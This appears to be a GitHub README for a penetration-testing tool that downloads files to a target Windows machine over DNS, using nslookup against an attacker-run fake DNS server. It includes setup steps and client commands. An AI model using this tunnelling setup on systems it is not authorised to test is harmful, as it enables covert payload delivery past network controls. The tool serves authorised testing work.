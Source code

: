 # Tunneling
DNS tunneling to use during penetration testing

# DNS Download tunneling

## Description 

dns_download is a simple reverse dns download with a windows client and a POSIX compatible server. It allows you to download file using nslookup from your server to the windows client

The client runs on the target Windows machine and the server can run on any platform on the attacker machine.

## Usage

First, you have to delegate sub-names of your own domain name, so create NS-records for "subname.yourname.com" in the "yourname.com" zone

###Running the server

On the fake DNS server who's in charge of the delegation, just run

`python dns_download_serv.py`

###Running the client

If you can't specify a custom DNS to query, the maximum size by packet is 3000 (Probably because the size is filtered on the way)

So just run : 

`DNS_Download -Server <server> -Filename <filename>`

__`<server>` represents your NS subdomain who's delegated by your fake DNS Server__

Howeover,if you can specify a custom DNS, the maximum size is 45000 (Because given a string with length of n , the base64 length will be 4*(n/3) )

Then you can run : 

`DNS_Download -Server <server> -Filename <filename> -Size 45000 -DNS <dns>` 
